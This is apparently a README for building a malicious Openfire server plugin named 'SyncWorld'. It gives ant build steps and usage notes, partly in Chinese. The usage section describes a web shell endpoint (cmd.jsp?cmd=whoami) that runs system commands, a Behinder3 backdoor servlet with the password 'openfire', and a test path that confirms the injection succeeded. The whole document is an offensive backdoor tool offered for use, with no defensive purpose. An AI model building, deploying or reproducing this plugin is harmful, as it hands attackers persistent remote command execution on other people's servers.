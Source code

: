 # build requirements:
ant1.9
jdk1.7
tomcat5.5.36

## build
```
cd build
ant openfire-plugins
```


上传 out下的SyncWolrd后

/plugins/syncworld/Test 返回Injected 注入成功


```
usages:
/plugins/syncworld/cmd.jsp?cmd=whoami
/plugins/syncworld/SyncServlet  behinder3 pass=openfire
/plugins/syncworld/Test 返回Injected

```
a2ad9b4babbba7e9460d5294f4585096

